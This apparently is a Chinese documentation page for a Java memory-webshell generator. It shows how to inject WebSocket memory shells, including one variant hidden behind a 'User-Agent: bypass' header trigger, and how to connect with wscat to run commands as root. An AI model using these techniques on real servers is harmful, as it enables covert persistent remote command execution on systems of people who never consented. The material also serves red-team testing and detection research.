


import { Step, Steps } from 'fumadocs-ui/components/steps';

## WebSocket 内存马

<Steps>
<Step>
### 选择 Command 并填写参数


</Step>

<Step>
### 生成并注入

选取合适的打包方式，并进行内存马的注入。

</Step>
<Step>
### 使用 WebSocket 客户端尝试连接

我这里使用的是 [wscat](https://github.com/websockets/wscat) 工具，使用 npm 就能下载 `npm install -g wscat`。

`/app` 是应用的路径，`/ws-cmd` 是上述生成时填的路径。

```bash
❯ wscat -c ws://127.0.0.1:8082/app/ws-cmd
Connected (press CTRL+C to quit)
> whoami
< reajason

>
```
</Step>
</Steps>

## BypassNginxWebSocket 内存马

<Steps>
<Step>
### 选择 Command 并填写参数


</Step>

<Step>
### 生成并注入

选取合适的打包方式，并进行内存马的注入。

</Step>
<Step>
### 使用 WebSocket 客户端尝试连接

我这里使用的是 [wscat](https://github.com/websockets/wscat) 工具，使用 npm 就能下载 `npm install -g wscat`。

`/app` 是应用的路径，`/ws-bypass-cmd` 是上述生成时填的路径。

我们可以先尝试直接连接，直接 404 因为 /app/ws-bypass-cmd 并不存在。

```bash
❯ wscat -c ws://127.0.0.1/app/ws-bypass-cmd
error: Unexpected server response: 404
> %
```

紧接着我们加上 Header 的标识来进入我们设置好的 WsBypassValve 逻辑，连接成功！

```bash
❯ wscat -H "User-Agent: bypass" -c ws://127.0.0.1/app/ws-bypass-cmd
Connected (press CTRL+C to quit)
> whoami
< root

>
```
</Step>
</Steps>